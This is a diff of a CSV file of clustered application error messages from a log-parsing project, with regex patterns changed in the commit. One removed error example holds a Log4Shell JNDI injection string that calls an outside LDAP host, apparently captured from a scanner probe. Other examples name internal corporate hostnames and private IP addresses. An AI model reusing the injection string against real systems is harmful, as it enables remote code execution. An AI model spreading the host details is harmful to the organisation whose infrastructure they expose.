

Before and after one commit to chirag127/Log-Parsing-and-Errors, a CSV file: cluster_error_data.csv, drawn as a sheet; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/cluster_error_data.csv
+++ b/cluster_error_data.csv
-column A, rows 1-8: Cluster | 1.0 | 2.0 | 3.0 | 4.0 | 5.0 | 6.0 | 7.0
-column B, rows 1-8: Error Example | a cookie header was received [${jndi:ldap://log4shell-generic-8molyf0ab2aqtscsyugh${lower:ten}.w.nessus.org/nessus}=${jndi:ldap://log4shell-generic-8molyf0ab2aqtscsyugh${lower:ten}.w.nessus.org/nessus};] invalid cookie | servlet.service() for servlet [dispatcherservlet] in context with path [] threw exception | discoveryclient_rdd-async-service/p1049433.prod.cloud.fedex.com:rdd-async-service:6521 - was unable to send heartbeat! | exception processing errorpage[errorcode=0, location=/error] | request execution failed with message: i/o error on put request for "": connect to rddgwslas03.prod.cloud.fedex.com:8094 [rddgwslas03.prod.cloud.fedex.com/10.228.54.50] failed: connection refused (connection refused); nested exception is org.apache.http.conn.httphostconnectexception: connect to rddgwslas03.prod.cloud.fedex.com:8094 [rddgwslas03.prod.cloud.fedex.com/10.2 | request execution failed with message: i/o error on get request for "": connect to rddgwsatl04.prod.cloud.fedex.com:8094 [rddgwsatl04.prod.cloud.fedex.com/10.52.77.32] failed: connection refused (connection refused); nested exception is org.apache.http.conn.httphostconnectexception: connect to rddgwsatl04.prod.cloud.fedex.com:8094 [rddgwsatl04.prod.cloud.fedex.com/10.52.77.32] failed: connection refused (connection refused) | request execution failed with message: i/o error on put request for "": connect to rddgwsatl02.prod.cloud.fedex.com:8094 [rddgwsatl02.prod.cloud.fedex.com/10.52.172.30] failed: connection refused (connection refused); nested exception is org.apache.http.conn.httphostconnectexception: connect to rddgwsatl02.prod.cloud.fedex.com:8094 [rddgwsatl02.prod.cloud.fedex.com/10.5
-A2: cookie header.*
+A2: cookie header was received.*invalid cookie
-row 9:  |  | ee | s
+row 9: cookie hdeader .* | cookie hdeader
```
Also changed, not shown: 7 other files.
